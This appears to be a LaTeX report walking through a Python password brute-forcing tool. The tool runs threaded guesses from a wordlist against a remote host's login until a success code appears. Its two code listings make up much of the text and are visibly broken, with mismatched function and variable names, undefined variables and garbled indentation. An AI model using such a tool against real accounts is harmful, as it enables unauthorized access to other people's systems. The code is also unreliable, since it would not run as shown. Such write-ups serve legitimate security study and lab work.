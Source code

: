 \documentclass[a4paper]{article}
\newcommand{\abc}{\hfill \break}
\begin{document}
The \texttt{worker} function iterates over the provided list of passwords and first checks whether the \texttt{password\_found} variable is set. If it is, the function returns immediately. If not, it calls \texttt{run\_command} with the current username and password. If the password is found, the \texttt{password\_found} variable is set, and the function returns \texttt{True}.\newpage
\begin{lstlisting}[language=python]
# Worker tries passwords until success or stop signal
def worker(args, passwords):
    for pw in passwords:
        if password_found.is_set(): return
	# executing the command
        code, _, _ = run_command(args.host, args.user, args.port, pw)
	# checking for sucessfull authentication
        if code == 131:
            print(f"SUCCESS: {pw}")
            password_found.set()
            return True
    return False
\end{lstlisting}
The \texttt{main} function begins by creating a new \texttt{ArgumentParser} object. Using the \texttt{add\_argument} method, all required arguments are added. Since the code for each argument is repetitive, I only included one line as an example. After this, the \texttt{args} variable is defined by calling \texttt{parser.parse\_args()}, which parses the input and retrieves the values for the variables.\abc
The password list file is then read and converted into a list, which is split into evenly sized chunks. A thread pool is created using the maximum number of workers, and a \texttt{futures} array is initialized to store the results from each thread. Each chunk of the password list is passed into the \texttt{worker} function using \texttt{executor.submit}, which runs the function in its own separate thread. The result is appended to the \texttt{futures} array.\abc
The loop then waits for all threads to complete before proceeding. Finally, it checks whether the \texttt{password\_found} variable is set. If it is not, a message is printed indicating that the password could not be obtained.
\begin{lstlisting}[language=python]
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--user", required=True)
    # ... other arguments ...
    args = parser.parse_args()

    pwlist = []
    # read single password or load list from file
    with open(args.Password_list) as f:
	for line in f:
	    pwlist.append(line.rstrip('\n'))

    # run with or without threading
    if args.threads == 1:
        worker(args, pwlist)
    else:
        chunks = split_list(pwlist, args.threads)
	# creating a thread pool
	with concurrent.futures.ThreadPoolExecutor(max_workers=num_workers) \
	as executor:
	    futures = []
	    for i in range(len(split_pw_list)):
	        passwords_chunk = split_pw_list[i]
	        future = executor.submit(
		    worker_function, args, passwords_chunk)
	            futures.append(future)
            # waiting for all threads to finish
	    for future in concurrent.futures.as_completed(futures):
	        if future.result():
		    break
	
    if not password_found.is_set():
        print("Password not found")
\end{lstlisting}\newpage
\end{document}
